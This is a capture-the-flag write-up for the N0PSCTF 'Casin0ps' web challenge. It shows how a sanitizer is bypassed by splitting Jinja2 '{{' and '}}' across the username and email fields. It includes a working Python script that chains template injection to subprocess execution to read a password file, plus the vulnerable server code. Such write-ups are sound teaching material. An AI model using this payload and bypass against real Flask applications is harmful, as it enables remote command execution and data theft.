


# N0PSCTF - Casin0ps

## Approach

Notice that the `/export` endpoint reflects the username and email address in the `.csv` file.



The server is probably a Flask app because of the `Server: Werkzeug/3.0.4 Python/3.13.3` in the response headers, so the first thought is to try an SSTI attack.

After some testing I find if username or email address contains both `{` and `}`, the value will become `SANITIZED` in the `.csv` file. Then I find this payload works:

```python
username = '{{"7"*7+"""'
email = '"""}}@gmail.com'
```



The basic idea is to include the `{{` and `}}` into username and email address separately, and use the `"""` to make a multi-line comment in Python.

A payload for command injection can be:

```python
username = '{{payload if 1 else """'
email = '"""}}@gmail.com'
```

Which in the `.csv` template will be parsed as:

```python
USERNAME,{{payload if 1 else """
MAIL,"""}}@gmail.com
```

The final script to get the flag is:

```python
import requests
import random
import base64

url = "https://nopsctf-casino.chals.io"

username = '{{1.__class__.__mro__[1].__subclasses__()[528](["cat", ".passwd"], stdout=-1).communicate() if 1 else """'

email = '"""}}@gmail.com'


def exp(username, email):
    if len(username) > 250:
        print("[!] Username too long, len:", len(username))
        exit(1)

    resp = requests.post(url + "/register", data={
        "username": username,
        "email": email,
        "password": "1337"
    })
    print("[*]/register:", resp.status_code)
    if "A user with this username already exists" in resp.text:
        print("[!] Something went wrong...")
        exit(1)

    with requests.session() as s:
        resp = s.post(url + "/login", data={
            "username": username,
            "password": "1337"
        })
        print("[*]/login:", resp.status_code)

        resp = s.get(url + "/export")
        print("[*]/export:", resp.text)


exp(username, email)
```

## Explore further ...

You can dump the source code to see the sanitization logic, which is [app.py](./src/app.py).

Also, this is `template.csv`:

```csv
USERNAME,{{ username }}
MAIL,{{ email }}
INSCRIPTION DATE,{{ created_at }}
MONEY,{{ money }}
STATS,{{ stats }}
```

The server uses `render_template_string` to render the CSV template, thus it's vulnerable to SSTI.

```python
template = open("template.csv", "r").read()
csv = jinja2.Template(template).render(
    username=sanitize(current_user.username),
    email=sanitize(current_user.email),
    created_at=current_user.created_at.strftime("%Y-%m-%d %H:%M:%S"),
    money=current_user.money,
    stats=json.dumps(current_user.stats)
)
response = make_response(render_template_string(csv))
```

## Flag

```
N0PS{s5T1_4veRywh3R3!!}
```
